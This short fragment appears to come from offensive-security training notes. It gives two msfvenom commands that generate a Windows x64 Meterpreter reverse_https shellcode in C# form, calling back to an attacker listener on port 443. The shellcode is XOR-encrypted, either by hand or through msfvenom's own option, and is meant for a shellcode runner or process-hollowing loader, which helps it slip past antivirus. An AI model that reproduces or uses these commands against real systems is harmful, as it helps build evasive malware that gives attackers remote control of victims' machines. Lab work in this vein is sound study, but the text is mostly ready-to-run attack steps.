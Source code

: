 Either use: `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp` and ecnrypt manually using xor encrypting function (like in simple shellcode runner),
or use `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a` and decrypt like in process hollowing code.